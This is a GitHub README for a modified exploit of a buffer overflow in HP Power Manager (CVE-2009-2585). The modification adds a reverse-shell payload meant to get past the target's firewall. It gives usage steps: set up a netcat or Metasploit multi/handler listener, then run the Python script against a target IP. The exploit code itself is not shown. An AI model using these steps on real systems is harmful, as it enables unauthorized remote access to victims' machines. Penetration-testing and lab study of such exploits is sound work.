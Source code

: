 # CVE2009-2585_HP_Power_Manager_BoF
It is a version modified of the original exploit by Muhammad Haidari (https://raw.githubusercontent.com/Muhammd/HP-Power-Manager/master/hpm_exploit.py). The modification includes a payload which allows to obtain a reverse shell to avoid to open ports in the Windows'target which the firewall's windows will be closed it.

# Usage

At firts, put a listener:

<pre> nc lvp 443 </pre>

Or using the metasploit module: 

<pre> /exploit/multi/handler with payload: windows/shell_reverse_tcp </pre>

Now, you can launch the exploit:

<pre>python CVE2009-2585_HP_Power_Manager_BoF.py IP </pre>
